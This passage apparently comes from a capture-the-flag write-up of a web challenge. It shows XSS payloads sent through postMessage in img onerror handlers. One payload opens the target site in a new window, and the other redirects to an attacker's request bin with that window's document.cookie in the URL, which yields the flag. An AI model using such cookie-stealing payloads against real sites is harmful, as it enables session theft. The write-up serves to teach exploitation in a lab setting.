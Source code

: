 ```js
game.contentWindow.postMessage({ type: 'error', id: id, data: "<img src='#' onerror='w = window.open(\"https://chessrs.mc.ax/\")'/>" }, '*')
```

After a short delay to let the new tab finish loading, we can then access its document.cookie property from inside the original iframe. In order to receive the cookie, I chose to simply redirect the iframe to a website we control, sending the cookie in the path of the URL:

```js
game.contentWindow.postMessage({ type: 'error', id: id, data: "<img src='#' onerror='window.location = \"https://ourrequestbin.pipedream.net/\" + w.document.cookie'/>" }, '*')
```

After submitting our attacking website to the admin bot, a GET request appears in our request bin containing our hard-earned flag:
![our request bin](requestbin.png)
```
dice{even_my_pwn_ch4lls_have_an_adm1n_b0t!!!}
```
